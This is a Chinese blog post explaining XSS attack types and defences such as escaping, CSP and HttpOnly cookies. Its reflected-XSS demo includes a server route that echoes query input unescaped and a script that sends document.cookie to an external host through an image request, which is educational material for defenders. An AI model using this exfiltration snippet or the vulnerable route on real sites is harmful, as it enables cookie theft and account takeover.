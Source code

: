 ```yaml
---
layout: post
title: "前端安全"
subtitle: '前端安全简述'
author: "Dongrh"
header-style: text
header-mask: 0.3
catalog: true
tags:
  - 安全
  - 浏览器工作原理
---
```


### 跨站脚本攻击

同源策略可以隔离各个站点之间的DOM交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web。这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入CSP策略来加以限制；默认XMLHttpRequest和Fetch不能跨站请求资源，然后又通过CORS策略来支持其跨域。页面中的第三方资源引用和CORS也带来了很多安全问题，其中最典型的就是XSS攻击。

XSS全称是Cross Site Scripting，为了与“CSS”区分开来，故简称XSS，翻译过来就是“跨站脚本”。
XSS攻击是指黑客往HTML、DOM、JS等文件中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。比如：可以窃取Cookie等信息，然后通过XMLHttpRequest或者Fetch加上CORS功能将数据发送给恶意服务器，造成安全隐患。


#### XSS方式
##### 1、存储型XSS攻击
存储型XSS攻击流程
- 黑客利用站点漏洞将一段恶意JavaScript代码提交到网站的数据库中
- 然后用户向网站请求包含了恶意JavaScript脚本的页面
- 当用户浏览该页面的时候，恶意脚本就会将用户的Cookie信息等数据上传到服务器
- 黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号

##### 2、反射型XSS攻击
反射型XSS攻击流程
- 恶意JavaScript脚本属于用户发送给网站请求中的一部分
- 随后网站又把恶意JavaScript脚本返回给用户
- 当恶意JavaScript脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作

代码演示
```
// 服务端
var express = require("express");
var router = express.Router();
router.get("xxx/xxx", function(req, res, next){
  res.render("xxxpage", {
      content: req.query.xss_content,
  })
})
module.exports = router;
```
```
// 客户端，仅仅举例说明，实际场景较多出现在渲染时使用html模式渲染
<!DOCTYPE html>
<html>
<head>
  <title>test xss</title>
</head>
<body>
  <p>Welcome to XSS Test</p>
  <script type="text/javascript">
    var xss_content =  encodeURIComponent('https://www.othernet.com/path?query='+document.cookie);
    fetch('/xxx/xxx?xss_content='+xss_content)
      .then(function(response) {
        return response.json();
      })
      .then(function(json) {
        var img = new Image();
        img.src = decodeURIComponent(json.content);
        document.body.append(img);
      });
  </script>
</body>
</html>
```
这种攻击较多出现在富文本、聊天场景等。

- 基于DOM的XSS攻击
基于DOM的XSS攻击流程
- 黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据


### 防范XSS攻击措施
存储型XSS 攻击和反射型XSS攻击都是需要经过服务器来处理的，这两种类型的漏洞是服务端的安全漏洞。基于DOM的XSS攻击全部都是在浏览器端完成的，因此基于DOM的XSS攻击是属于前端的安全漏洞。
无论是何种类型的XSS攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。所以要阻止XSS攻击，我们可以通过阻止恶意 JavaScript脚本的注入和恶意消息的发送来实现

1. 服务器对输入脚本进行过滤或转码不管是反射型还是存储型XSS攻击，我们都可以在服务器端将一些关键的字符进行转码，比如最典型的：
```
<script>alert('你被xss攻击了')</script>
```
如果上述代码通过script过滤，则代码变成了 "", 当用户再次请求该页面时，由于script标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。

除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：
```
&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
```
经过转码之后的内容，如script标签被转换为&lt;script&gt;，因此即使这段脚本返回给页面，页面也不会执行这段脚本。

2. 充分利用CSP虽然在服务器端执行过滤或者转码可以阻止XSS攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把CSP等策略充分地利用起来，以降低XSS攻击带来的风险和后果。实施严格的CSP可以有效地防范XSS攻击，具体来讲CSP有如下几个功能：
- 限制加载其他域下的资源文件，这样即使黑客插入了一个JavaScript文件，这个JavaScript文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。

3. 使用HttpOnly属性由于很多XSS攻击都是来盗用Cookie的，因此还可以通过使用HttpOnly属性来保护我们 Cookie 的安全。通常服务器可以将某些 Cookie 设置为HttpOnly标志，HttpOnly是服务器通过HTTP响应头来设置的，下面是打开GitHub时，HTTP 响应头中的一段：
```
Set-Cookie: has_recent_activity=1; path=/; expires=Tue, 10 May 2019 07:46:50 GMT; secure; HttpOnly; SameSite=Lax
```
我们可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie。顾名思义，使用 HttpOnly 标记的Cookie只能使用在HTTP请求过程中，所以无法通过JavaScript来读取这段 Cookie。我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly，如下图
![PNG](/img/safe/1.pic_hd.jpg)
从图中可以看出，logged_in等的Cookie的HttpOlny属性是被勾选上的，所以logged_in的内容是无法通过document.cookie是来读取的。由于无法读取设置了HttpOnly的Cookie数据，所以即使页面被注入了恶意JavaScript脚本，也是无法获取到设置了HttpOnly的数据。因此一些比较重要的数据我们建议设置HttpOnly标志。

